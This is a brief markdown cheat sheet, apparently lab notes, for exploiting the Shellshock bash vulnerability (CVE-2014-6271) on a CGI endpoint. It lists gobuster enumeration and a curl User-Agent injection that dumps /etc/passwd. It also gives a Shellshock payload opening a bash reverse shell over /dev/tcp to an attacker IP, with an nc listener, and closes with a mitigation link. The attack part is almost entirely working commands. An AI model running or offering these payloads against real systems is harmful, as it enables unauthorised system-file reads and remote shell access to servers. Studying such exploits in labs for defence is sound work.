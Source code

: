 ## Shellshock

https://nvd.nist.gov/vuln/detail/CVE-2014-6271

**Enumeration - Gobuster
```
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```
```
curl -i http://10.129.204.231/cgi-bin/access.cgi
```

**Confirming the Vulnerability
```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```

**Exploitation to Reverse Shell Access
```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
sudo nc -lvnp 7777
```


## Mitigation
https://www.digitalocean.com/community/tutorials/how-to-protect-your-server-against-the-shellshock-bash-vulnerability
